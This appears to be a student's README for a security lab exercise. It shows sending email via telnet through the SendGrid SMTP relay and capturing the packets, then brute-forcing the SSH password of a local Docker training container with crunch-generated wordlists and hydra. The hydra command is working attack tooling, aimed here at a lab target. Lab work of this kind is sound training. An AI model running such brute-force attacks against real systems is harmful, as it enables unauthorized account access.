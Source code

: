 Attack_is_the_best_defense

Task 0
open an account in Sendgrid
look at the tutorial for send email with telnet

download script and execute

capture package the telnet send email and script

telnet smtp.sendgrid.net 587
EHLO ismtpd0013p1las1.sendgrid.net
auth login
colocan aqui su usuario pero en base64
luego el password de igual forma

mail from: fogniebla@hotmail.com
rcpt to: alzheimeer@hotmail.com
DATA

To: edgar fogniebla@hotmail.com
From: Recipient alzheimeer@hotmail.com
Subject: This is a test for the SMTP relay

Mensanje....
.Enter


tcpdump -i eth0 -w real.pcap

compare files

cool.



Task 1

Install docker and download container
docker run -p 2222:22 -d -ti sylvainkalache/264-1

with sudo docker ps
with sudo docker ps -a
check if service is run

User: sylvain
ip: 127.0.0.1
port: 2222


For entry:

ssh sylvain@127.0.0.1 -p2222

the Password has 11 characters


install hydra and crunch

./crunch 11 11  -o pepe.txt
generate passwords file
or download the https://thehacktoday.com/password-cracking-dictionarys-download-for-free/

and with

hydra -s 2222 -l sylvain -P pepe.txt 127.0.0.1 -V  ssh

wait several hours

cool.
